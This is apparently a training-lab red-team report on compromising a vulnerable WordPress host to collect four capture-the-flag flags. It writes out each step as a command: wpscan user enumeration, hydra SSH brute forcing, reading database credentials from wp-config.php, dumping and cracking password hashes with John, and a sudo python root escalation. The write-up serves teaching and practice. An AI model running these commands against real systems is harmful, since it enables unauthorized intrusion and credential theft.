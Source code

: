 # Red Team: Summary of Operations

## Table of Contents
- Exposed Services
- Critical Vulnerabilities
- Exploitation

### Exposed Services

Nmap scan results for each machine reveal the below services and OS details:

```bash
$ nmap -A 192.168.1.110 
```
![nmap scan](./Images/nmap.png)

This scan identifies the services below as potential points of entry:
- Target 1
  - Port 22/tcp Open ssh
  - Port 80/tcp Open http
  - Port 111/tcp Open rpcbind
  - Port 139/tcp netbios-ssn
  - Port 445/tcp netbios-ssn

The following vulnerabilities were identified on each target:
- Target 1
  - Open Ports
  - Wordpress Scan
  - Weak Passwords
  - MySQL Database Access
  - MySql Data Exfiltration
  - Privilege Escalation


### Exploitation

The Red Team was able to penetrate `Target 1` and retrieve the following confidential data:
- Target 1
  - `flag1.txt`: b9bbcb33e11b80be759c4e844862482d
    - **Exploit Used**
      - Wpscan was used to enumerate users of Target 1's Wordpress site.

        - `wpscan http://192.168.1.110/wordpress/ --enumerate u`
      
      ![enumerate users](./Images/enumerate_users.png)
      - Michael had a weak password that could have been guessed easily. Alternatively a tool such as hydra could be used to brute force the password.
      
        - `hydra -l michael -P /usr/share/wordlists/rockyou.txt 192.168.1.110 ssh`
      
      ![hydra](./Images/hydra.png)
      - After the discovery of michael's password accessing the Target 1 machine via ssh became possible.
        
        - `ssh michael@192.168.1.110`
      
      ![michael ssh](./Images/michaelSSH.png)
      - Flag1 can be found by moving into the `/var/www/html/` directory then viewing the `service.html` file using a command such as `cat` or `nano`.
      
        - `cd /var/www/html/`
        - `cat service.html`
      
      ![flag1](./Images/flag1.png)
  - `flag2.txt`: fc3fd58dcdad9ab23faca6e9a36e581c
    - **Exploit Used**
      - Flag2 can be found using the `locate` command.
      
        - `locate flag2.txt`
      
      ![locate flag2](./Images/locateFlag2.png)
      
        - `cd /var/www/`
        - `cat flag2.txt`
      
      ![flag2](./Images/flag2.png)
  - `flag3.txt`: afc01ab56b50591e7dccf93122770cd2
    - **Exploit Used**
      - Login credentials can be found by moving into the `/var/www/html/wordpress/` directory and viewing the `wp-config.php` file using a command such as `cat` or `nano`.
      
        - `cd /var/www/html/wordpress/`
        - `cat wp-config.php`
      
      ![MySQL login credentials](./Images/mysqlCredentials.png)
      - The login credentials can be used to login to the MySQL database.
      
        - `mysql -u root -p'R@v3nSecurity'`
      
      ![MySQL login](./Images/mysqlLogin.png)
      - After logging in to the MySQL database and browsing through the various databases and tables flag3 can be found in the `wp_posts` table. _flag4 can also be found here._
      
        - `show databases;`
        - `use wordpress;`
      
      ![show databses and use wordpress](./Images/showDatabases.png)
      
        - `show tables;`
      
      ![show tables](./Images/showTables.png)
      
        - `select * from wp_posts` 
      
      ![flag3](./Images/flag3.png)
  - `flag4.txt`: 715dea6c055b9fe3337544932f2941ce
    - **Exploit Used**
      - Although flag4 can be found in the same location as flag3, there is an alternate method to finding it.
      - While still in the MySQL database the password hashes for michael and steven can be found in`wp_users`.
      
      ![password hashes](./Images/passwordHashes.png)
      - After discovering steven's password hash and exfiltrating it into a txt file John the Ripper can be used to crack the password hash.
      
        - `echo 'steven:$P$Bk3VD9jsxx/loJoqNsURgHiaB23j7W/' > wp_hashes.txt`
        - `john wp_hashes.txt`
      
      ![steven](./Images/john.png)
      - Steven's credentials can be used to ssh back into the Target 1 machine.
      
      ![steven SSH](./Images/stevenSSH.png)
      - By checking steven's privliges it is revealed that he has `sudo` priviliges for python
      
        - `sudo -l`
      
      ![privileges](./Images/privileges.png)
      - Steven's python privileges can be use to escalate to root.
      
        - `sudo python -c 'import pty;pty.spawn("/bin/bash")'`
      
      ![privilege escalation](privilegeEscalation.png)
      - As root the `locate` command can be used to find flag4.
      
        - `locate flag4.txt`
      
      ![locate flag4](./Images/locateFlag4.png)
      
        - `cd /root/`
        - `cat flag4.txt`
      
      ![flag4](./Images/flag4.png)